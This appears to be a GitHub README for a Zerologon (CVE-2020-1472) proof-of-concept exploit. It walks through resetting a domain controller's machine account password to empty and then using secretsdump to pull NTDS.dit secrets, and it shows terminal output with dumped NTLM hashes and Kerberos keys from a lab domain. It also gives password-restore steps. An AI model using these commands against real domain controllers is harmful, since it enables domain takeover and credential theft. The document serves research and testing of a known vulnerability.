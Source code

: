 # CVE-2020-1472 - Zero-Logon POC
<p align='center'>
  <img src='PoC - CVE-2020-1472.png' alt="huyqa-home.com">
</p>
![alt text](https://github.com/harshil-shah004/zerologon-CVE-2020-1472/blob/master/PoC%20-%20CVE-2020-1472.png)

This exploit requires you to use the latest impacket from [GitHub](https://github.com/SecureAuthCorp/impacket).

Ensure impacket installation is done with netlogon structures added.

Note : 

1. By default, successful exploitation changes the password of the DC Account. 

2. Allows DCSync

3. Breaks communication with other domain controllers (Be careful!)

Original Research & information [here](https://www.secura.com/blog/zero-logon)

## Installation

Requires Python 3.7 or higher and Pip. Install dependencies as follows:

    pip install -r requirements.txt

<p align='center'>
  <img src='./Screenshots/install-req.png' alt="huyqa-home.com">
</p>
    
## Before Zerologon 

<p align='center'>
  <img src='./Screenshots/before-zerologon.png alt="huyqa-home.com">
</p>
Unable to dump secrets!

## Performing Zerologon Attack!
    huyqa@bananoname-pc:~/Music/zerologon-CVE-2020-1472$ python3 zero-logon-exploit.py AD-SRV 192.168.56.129
    Performing authentication attempts...
    ==================================================================================================================
    Target vulnerable, changing account password to empty string

    Result: 0

    Exploit complete!


<p align='center'>
  <img src='./Screenshots/Screenshot from 2023-12-28 15-35-49.png' alt="huyqa-home.com">
</p>

## After Zerologon
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user huyqa
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    huyqa.local\huyqa:1103:aad3b435b51404eeaad3b435b51404ee:fcf2d6f9c8a83291396a6555f182b8a7:::
    [*] Kerberos keys grabbed
    huyqa.local\huyqa:aes256-cts-hmac-sha1-96:bb6c792161d04c880b999be788354b1d78eb9eea90e6cf9cb5370e62f67ed46f
    huyqa.local\huyqa:aes128-cts-hmac-sha1-96:2f1a2be83abed0d24481afdf59f1a830
    huyqa.local\huyqa:des-cbc-md5:624aa89132f4987f
    [*] Cleaning up... 
    huyqa@bananoname-pc:~/Music/impacket/examples$ python3 secretsdump.py -no-pass huyqa.local/'AD-SRV$'@192.168.56.129 -just-dc-user Administrator
    Impacket v0.11.0 - Copyright 2023 Fortra

    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:8d4ff5ed8d5357d3d073e34023e24c48:::
    [*] Cleaning up... 

<p align='center'>
  <img src='./Screenshots/after-zerologon1.png' alt="huyqa-home.com">
</p>
Successfully dumped NTDS.dit secrets!

## Exploit Steps
- Read the related articles/blogs/whitepapers to know the objective of the exploit
- Run `python3 zero-logon-exploit.py` with IP and netbios name of DC
- DCSync with secretsdump, using `-just-dc` and `-no-pass` or empty hashes and the `DCHOSTNAME$` account


## Restore steps
If you make sure that [this line](https://github.com/SecureAuthCorp/impacket/blob/64ce46580286b5ab15a4737bddf85201ce2adde3/impacket/examples/secretsdump.py#L1530) in secretsdump passes (so make it `if True:` for example) secretsdump will also dump the plaintext (hex encoded) machine account password from the registry. You can do this by running it against the same DC and using a DA account.

Alternatively you can dump this same password by first extracting the registry hives and then running secretsdump offline (it will then always print the plaintext key because it can't calculate the Kerberos hashes, this saves you modifying the library).

With this password you can run `restorepassword.py` with the `-hexpass` parameter. This will first authenticate with the empty password to the same DC and then set the password back to the original one. Make sure you supply the netbios name and IP again as target, so for example:

```
python restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```

Credits for Exploit Provision : [dirkjanm](https://github.com/dirkjanm) 
